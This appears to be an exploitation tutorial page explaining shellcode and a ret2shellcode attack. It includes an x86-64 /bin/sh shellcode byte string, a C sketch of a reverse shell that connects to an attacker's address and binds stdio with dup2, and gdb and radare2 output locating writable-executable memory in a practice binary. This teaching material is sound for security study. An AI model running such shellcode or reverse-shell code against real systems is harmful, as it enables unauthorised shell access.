 # Shellcode

### Example

A very good resource for finding shellcode is shell-storm: [http://shell-storm.org/shellcode/](http://shell-storm.org/shellcode/)

I have chosen a Linux x86-64 shellcode which executes /bin/sh

> [http://shell-storm.org/shellcode/files/shellcode-806.php](http://shell-storm.org/shellcode/files/shellcode-806.php)

```python
\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05
```

### What is it?

Shellcode is essentially our own compiled assembly, which can gain us a "shell". This "shell" is essentially a terminal, in which we can execute our own commands from, such as `ls`, `whoami`, `python -c 'import pty;pty.spawn("/bin/sh")'`, `sudo -l` etc. The way that this is done is by many ways. One way is to create a socket which will listen on the attackers ip and port, and then send a `dup2()` command to bind the attacker's socket to the program's input, output, error.

```c
// Open a TCP connection to an attacker controlled machine or server
sock = socket(AF_INET, SOCK_STREAM);
connect(sock, /* Attacker's ip and port */);

// bind socket to program's stdin/out/err
dup2(sock, 0); // stdin
dup2(sock, 1); // stdout
dup2(sock, 2); // stderr
```

We can compile this, send it over to the binary, and bam, we have a shell!!

However, there is a slight caveat to this. Where are we going to store our shellcode? How can we get it to execute? We can't execute things from the stack, or can we?

This is where we need to have a look at the permissions that certain pages have in the binary. We can get our shellcode to be stored somewhere, or written to, and then executed. For this to happen, we must have a page, or section of the binary which is mapped, to have a `rwx` permission. This'll allow us to `Read, write, execute` any code inside that page. We can view what pages have what permissions by using gdb or radare2:

{% tabs %}
{% tab title="gdb" %}
```c
$ gdb ./file // use --nx if you have an extension for gdb
(gdb) r
^c
(gdb) p (int) getpid()
(gdb) shell cat /proc/pid/maps
```

```java
$ gdb --nx ./eXit 
GNU gdb (Ubuntu 9.1-0ubuntu1) 9.1
...
For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from ./eXit...
(No debugging symbols found in ./eXit)
(gdb) r
Starting program: ./eXit 
--- eXit ---

It's time to leave the Land of Ecodelia...
Press Enter to continue
^C
Program received signal SIGINT, Interrupt.
0x00007ffff7ed1fb2 in __GI___libc_read (fd=0, buf=0x5555555596b0, nbytes=1024)
    at ../sysdeps/unix/sysv/linux/read.c:26
26	../sysdeps/unix/sysv/linux/read.c: No such file or directory.
(gdb) p getpid()
'getpid' has unknown return type; cast the call to its declared return type
(gdb) print (int) getpid()
$1 = 7888
(gdb) shell cat /proc/7888/maps
555555554000-555555555000 r--p 00000000 08:05 25165869                   ./eXit
555555555000-555555556000 r-xp 00001000 08:05 25165869                   ./eXit
555555556000-555555557000 r--p 00002000 08:05 25165869                   ./eXit
555555557000-555555558000 r--p 00002000 08:05 25165869                   ./eXit
555555558000-555555559000 rw-p 00003000 08:05 25165869                   ./eXit
555555559000-55555557a000 rw-p 00000000 00:00 0                          [heap]
7ffff7dc1000-7ffff7de6000 r--p 00000000 08:05 28318069                   /usr/lib/x86_64-linux-gnu/libc-2.31.so
7ffff7de6000-7ffff7f5e000 r-xp 00025000 08:05 28318069                   /usr/lib/x86_64-linux-gnu/libc-2.31.so
7ffff7f5e000-7ffff7fa8000 r--p 0019d000 08:05 28318069                   /usr/lib/x86_64-linux-gnu/libc-2.31.so
7ffff7fa8000-7ffff7fa9000 ---p 001e7000 08:05 28318069                   /usr/lib/x86_64-linux-gnu/libc-2.31.so
7ffff7fa9000-7ffff7fac000 r--p 001e7000 08:05 28318069                   /usr/lib/x86_64-linux-gnu/libc-2.31.so
7ffff7fac000-7ffff7faf000 rw-p 001ea000 08:05 28318069                   /usr/lib/x86_64-linux-gnu/libc-2.31.so
7ffff7faf000-7ffff7fb5000 rw-p 00000000 00:00 0 
7ffff7fcb000-7ffff7fce000 r--p 00000000 00:00 0                          [vvar]
7ffff7fce000-7ffff7fcf000 r-xp 00000000 00:00 0                          [vdso]
7ffff7fcf000-7ffff7fd0000 r--p 00000000 08:05 28317854                   /usr/lib/x86_64-linux-gnu/ld-2.31.so
7ffff7fd0000-7ffff7ff3000 r-xp 00001000 08:05 28317854                   /usr/lib/x86_64-linux-gnu/ld-2.31.so
7ffff7ff3000-7ffff7ffb000 r--p 00024000 08:05 28317854                   /usr/lib/x86_64-linux-gnu/ld-2.31.so
7ffff7ffc000-7ffff7ffd000 r--p 0002c000 08:05 28317854                   /usr/lib/x86_64-linux-gnu/ld-2.31.so
7ffff7ffd000-7ffff7ffe000 rw-p 0002d000 08:05 28317854                   /usr/lib/x86_64-linux-gnu/ld-2.31.so
7ffff7ffe000-7ffff7fff000 rw-p 00000000 00:00 0 
7ffffffde000-7ffffffff000 rw-p 00000000 00:00 0                          [stack]
ffffffffff600000-ffffffffff601000 --xp 00000000 00:00 0                  [vsyscall]
(gdb) 
```
{% endtab %}

{% tab title="gdb-gef / gdb-peda" %}
```c
$ gdb ./file
gdb-peda$ r
^c
gdb-peda$ vmmap
```

```java
$ gdb ./eXit
GNU gdb (Ubuntu 9.1-0ubuntu1) 9.1
...
For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from ./eXit...
(No debugging symbols found in ./eXit)
gdb-peda$ r
Starting program: ./eXit 
--- eXit ---

It's time to leave the Land of Ecodelia...
Press Enter to continue
^C
Program received signal SIGINT, Interrupt.
[----------------------------------registers-----------------------------------]
...
26	../sysdeps/unix/sysv/linux/read.c: No such file or directory.
gdb-peda$ vmmap
Start              End                Perm	Name
0x0000555555554000 0x0000555555555000 r--p	./eXit
0x0000555555555000 0x0000555555556000 r-xp	./eXit
0x0000555555556000 0x0000555555557000 r--p	./eXit
0x0000555555557000 0x0000555555558000 r--p	./eXit
0x0000555555558000 0x0000555555559000 rw-p	./eXit
0x0000555555559000 0x000055555557a000 rw-p	[heap]
0x00007ffff7dc1000 0x00007ffff7de6000 r--p	/usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7de6000 0x00007ffff7f5e000 r-xp	/usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7f5e000 0x00007ffff7fa8000 r--p	/usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7fa8000 0x00007ffff7fa9000 ---p	/usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7fa9000 0x00007ffff7fac000 r--p	/usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7fac000 0x00007ffff7faf000 rw-p	/usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7faf000 0x00007ffff7fb5000 rw-p	mapped
0x00007ffff7fcb000 0x00007ffff7fce000 r--p	[vvar]
0x00007ffff7fce000 0x00007ffff7fcf000 r-xp	[vdso]
0x00007ffff7fcf000 0x00007ffff7fd0000 r--p	/usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007ffff7fd0000 0x00007ffff7ff3000 r-xp	/usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007ffff7ff3000 0x00007ffff7ffb000 r--p	/usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007ffff7ffc000 0x00007ffff7ffd000 r--p	/usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007ffff7ffd000 0x00007ffff7ffe000 rw-p	/usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007ffff7ffe000 0x00007ffff7fff000 rw-p	mapped
0x00007ffffffde000 0x00007ffffffff000 rw-p	[stack]
0xffffffffff600000 0xffffffffff601000 --xp	[vsyscall]
gdb-peda$
```
{% endtab %}

{% tab title="radare2" %}
```c
$ r2 -dA ./file
[0x7f92d71ee100]> dcu entry0
[0x55b76f81b1a0]> dm
```

```java
$ r2 -dA ./eXit
Process with PID 7600 started...
= attach 7600 7600
bin.baddr 0x55b76f81a000
Using 0x55b76f81a000
asm.bits 64
[Cannot find function at 0x55b76f81b1a0. and entry0 (aa)
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze function calls (aac)
[x] Analyze len bytes of instructions for references (aar)
[x] Check for objc references
[x] Check for vtables
[TOFIX: aaft can't run in debugger mode.ions (aaft)
[x] Type matching analysis for all functions (aaft)
[x] Propagate noreturn information
[x] Use -AA or aaaa to perform additional experimental analysis.
[0x7f92d71ee100]> dcu entry0
Continue until 0x55b76f81b1a0 using 1 bpsize
hit breakpoint at: 55b76f81b1a0
[0x55b76f81b1a0]> dm
0x000055b76f81a000 - 0x000055b76f81b000 - usr     4K s r-- ./eXit ./eXit ; sym.imp.__cxa_finalize
0x000055b76f81b000 - 0x000055b76f81c000 * usr     4K s r-x ./eXit ./eXit ; map.eXit.r_x
0x000055b76f81c000 - 0x000055b76f81d000 - usr     4K s r-- ./eXit ./eXit ; map.eXit.r
0x000055b76f81d000 - 0x000055b76f81e000 - usr     4K s r-- ./eXit ./eXit ; map.eXit.rw
0x000055b76f81e000 - 0x000055b76f81f000 - usr     4K s rw- ./eXit ./eXit ; section..data
0x00007f92d6fe3000 - 0x00007f92d7008000 - usr   148K s r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007f92d7008000 - 0x00007f92d7180000 - usr   1.5M s r-x /usr/lib/x86_64-linux-gnu/libc-2.31.so /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007f92d7180000 - 0x00007f92d71ca000 - usr   296K s r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007f92d71ca000 - 0x00007f92d71cb000 - usr     4K s --- /usr/lib/x86_64-linux-gnu/libc-2.31.so /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007f92d71cb000 - 0x00007f92d71ce000 - usr    12K s r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007f92d71ce000 - 0x00007f92d71d1000 - usr    12K s rw- /usr/lib/x86_64-linux-gnu/libc-2.31.so /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007f92d71d1000 - 0x00007f92d71d7000 - usr    24K s rw- unk0 unk0
0x00007f92d71ed000 - 0x00007f92d71ee000 - usr     4K s r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007f92d71ee000 - 0x00007f92d7211000 - usr   140K s r-x /usr/lib/x86_64-linux-gnu/ld-2.31.so /usr/lib/x86_64-linux-gnu/ld-2.31.so ; map.usr_lib_x86_64_linux_gnu_ld_2.31.so.r_x
0x00007f92d7211000 - 0x00007f92d7219000 - usr    32K s r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so /usr/lib/x86_64-linux-gnu/ld-2.31.so ; map.usr_lib_x86_64_linux_gnu_ld_2.31.so.r
0x00007f92d721a000 - 0x00007f92d721b000 - usr     4K s r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so /usr/lib/x86_64-linux-gnu/ld-2.31.so ; map.usr_lib_x86_64_linux_gnu_ld_2.31.so.rw
0x00007f92d721b000 - 0x00007f92d721c000 - usr     4K s rw- /usr/lib/x86_64-linux-gnu/ld-2.31.so /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007f92d721c000 - 0x00007f92d721d000 - usr     4K s rw- unk1 unk1 ; map.unk0.rw
0x00007fffae0ae000 - 0x00007fffae0cf000 - usr   132K s rw- [stack] [stack] ; map.stack_.rw
0x00007fffae0f4000 - 0x00007fffae0f7000 - usr    12K s r-- [vvar] [vvar] ; map.vvar_.r
0x00007fffae0f7000 - 0x00007fffae0f8000 - usr     4K s r-x [vdso] [vdso] ; map.vdso_.r_x
0xffffffffff600000 - 0xffffffffff601000 - usr     4K s --x [vsyscall] [vsyscall] ; map.vsyscall_.__x
[0x55b76f81b1a0]> 
```
{% endtab %}
{% endtabs %}

Our plan of attack, to perform a _ret2shellcode_ _attack_, __would be to overflow the buffer, enter in an address which points to an area in the `rwx` memory map and add our shellcode there. When we execute this, it should give us a shell back!!

